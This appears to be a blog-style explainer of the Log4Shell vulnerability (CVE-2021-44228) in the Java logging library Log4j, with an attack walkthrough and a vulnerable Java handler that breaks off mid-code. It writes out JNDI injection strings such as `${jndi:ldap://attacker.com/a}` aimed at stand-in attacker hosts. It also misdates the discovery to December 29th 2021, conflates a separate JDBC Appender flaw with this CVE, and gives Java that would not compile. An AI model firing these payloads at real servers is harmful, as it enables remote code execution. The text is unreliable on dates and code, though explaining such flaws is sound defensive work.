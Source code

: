 On December 29<sup>th</sup> 2021, a critical vulnerability was discovered in the popular Java logging library called [Log4j](https://logging.apache.org/log4j/2.x/).
The versions affected ranged [between 2.0-beta9 and 2.14.1 included](https://github.com/advisories/GHSA-jfh8-c2jp-5v3q). 
Once reported and confirmed, this vulnerability received the identifier code [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228), so that the security community could track it.

In this case, an attacker with permission to modify the logging configuration file was able to construct a malicious configuration using a [JDBC Appender](https://logging.apache.org/log4j/2.x/manual/appenders.html#jdbcappender) with a data source referencing a Java Naming and Directory Interface URI ([JNDI](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html#:~:text=The%20Java%20Naming%20and%20Directory,any%20specific%20directory%20service%20implementation.)).
This allows the attacker to execute remote code.
The vulnerability stemmed from the [<i class="fab fa-github"></i>`JndiLookup`](https://github.com/apache/logging-log4j2/blob/2.x/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/JndiLookup.java) class in Log4j, which allowed JNDI lookups. 

> "The Java Naming and Directory Interface (JNDI) is an API that allows applications to discover and look up data and objects via a name. These objects can be anything from simple data items (like strings and numbers) to more complex network services. JNDI lookup is essentially the process of retrieving an object or piece of data bound to a particular name in a naming or directory service."

When Log4j is configured to log unsanitized user input, an attacker can insert a malicious string which would cause Log4j to initiate a JNDI lookup.
For example, the string `${jndi:ldap://malicious.server/payload}` would cause Log4j to perform a JNDI lookup on the `malicious.server` URI.
This can lead to [Remote Code Execution](https://en.wikipedia.org/wiki/Arbitrary_code_execution) (RCE) because certain JNDI services, like LDAP, can return serialized Java objects, allowing the attacker to run arbitrary code on the affected server.

In summary, the attack works as follows:

1. The user sends logging data to the server via TCP, HTTP, or any other protocol allowing this.
2. The server writes in the logs via Log4j, adding data containing the malicious payload in the request. For example, appending `${jndi:ldap://malicioussite.com/exploit}`, where `malicioussite.com` is an attacker-controlled server.
3. The Log4j vulnerability is triggered and the server makes a request to `malicioussite.com` via JNDI.
4. The response contains a path to a remote Java class file, which will be injected into the server process.
5. The injected payload allows the attacker to execute arbitrary code remotely (e.g., to gain local administrative access on the host machine).


The following simple Java code represents a scenario where an attacker can exploit this vulnerability via the [User Agent header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent) of an HTTP request:

{% highlight java linenos %}
/**
* A simple HTTP handler that will process HTTP requests and logs them back.
*/
public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = Logger.getLogger(log4jExample.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's User Agent and logs it back.
   * @param the HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    // The User Agent from the HTTP request is retrieved and stored in the userAgent variable.
    string userAgent = he.getRequestHeader("user-agent");
    // Logging the User Agent, this is where the exploit occurs.
    // If an attacker sends a malicious payload like ${jndi:ldap://attacker.com/a} as the User Agent, then
    // log4j will try to resolve this expression, leading to a remote code execution (RCE) vulnerability.